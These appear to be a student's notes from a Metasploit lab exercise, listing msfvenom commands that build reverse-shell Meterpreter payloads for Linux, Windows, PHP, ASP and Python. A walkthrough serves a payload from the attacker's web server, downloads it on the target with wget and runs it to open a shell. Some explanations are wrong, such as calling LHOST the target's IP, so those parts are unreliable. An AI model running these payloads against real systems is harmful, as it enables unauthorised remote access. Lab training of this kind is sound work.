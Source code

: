 ## Handlers

- Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload.
- Handlers can be used to catch connection coming from target , during reverse_shell
- multi-handler is used to receive the incoming connection with command `  use exploit/multi/handler command `
- multi-handler can be used for both meterpreter and normal shells
- Once everything is set , like payload is run , we then run the multi-handler

## Other Payloads

- msfconsole is the main, interactive Metasploit interface. It's used for running exploits, managing sessions, and interacting with the framework's database. It has its own set of internal commands.
- msfvenom is a command-line utility for generating payloads. It doesn't need to be run from inside the interactive console

- Linux Executable and Linkable Format (elf)
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.

- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
- `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
- `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

- -f is nothing but how u want to save the file  as .
- -p is platform 
- LHOST is Target_IP
- LPORT is Target_port


### TO ANSWER THE QUESTIONS BELOW HERE , WE WILL HAVE TO DO THE FOLLOWING 

- One is the target , which is LINUX  and the other is Attacker
- So we start with signing up to LINUX with `sudo su`
- Now in the attackbox terminal , create a attack box --> `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=attacker_IP LPORT=Attacker_port -f elf > shell.elf`
- Now we have created a payload, we have to send it to LINUX , to do this first we will run a python webserver in attackbox using ` python3 -m http.server 9000` and then in LINUX use ` wget http://attacing_machine_IP:9000/shell.elf `
- now use ` chmod +x shell.elf` to make this file executable .
- Now go to attacking machine and start ` msfconsole ` and then ` use exploit/multi/handler ` and the run it with payload . 
- Finally, in LINUX run ` ./shell.elf ` and in meterpreter it starts working .


----------------------------------------------------------------------------------------------------------------------------------------------------------------------
